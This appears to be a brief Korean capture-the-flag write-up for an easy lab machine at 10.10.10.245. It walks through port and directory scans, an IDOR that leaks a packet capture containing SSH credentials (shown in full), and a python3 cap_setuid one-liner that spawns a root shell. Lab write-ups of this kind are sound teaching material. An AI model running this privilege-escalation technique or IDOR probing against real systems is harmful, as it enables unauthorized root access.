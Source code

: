 
## By
- `Create`: 2021.07.25
- `Author`: jak010
- `Export IP`: 10.10.10.245
- `Level`: Easy


### Walk-Throught
 - 페이지를 하나씩 클릭하다보면 `IDOR` 이 가능한 링크가 보임
 	- `http://10.10.10.245/data/{0-9}[+]`
 - `http://10.10.10.245/data/0`에서 `pcap` 파일을 다운로드 할 수 있는 `ssh` 에 접속 가능한 `Credential`이 노출됨
 - `Root`권한을 얻기 위한 특정 바이너리는 안 보이므  `awesome-enumeration-tools` 를 이용 `python`에 `cap_setuid`가 걸려있는 걸 볼 수 있음


### Reconnaissnace && Enumeration
 - Nmap
 	```text
 	21/tcp open  ftp     vsftpd 3.0.3
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    gunicorn
 	```

 - Gobuster
	```text
	...
	[+] Url:                     http://10.10.10.245/
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
	...	
	/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
	/ip                   (Status: 200) [Size: 17462]                         
	/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/9]
	```


### Gaining Access
  - `http://{EXPORT_IP}/data/0`
	- `CREDENTIAL`
		- `nathan`:`Buck3tH4TF0RM3!`


### Priviliege Escalate
 - `GTFObins`
	- `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
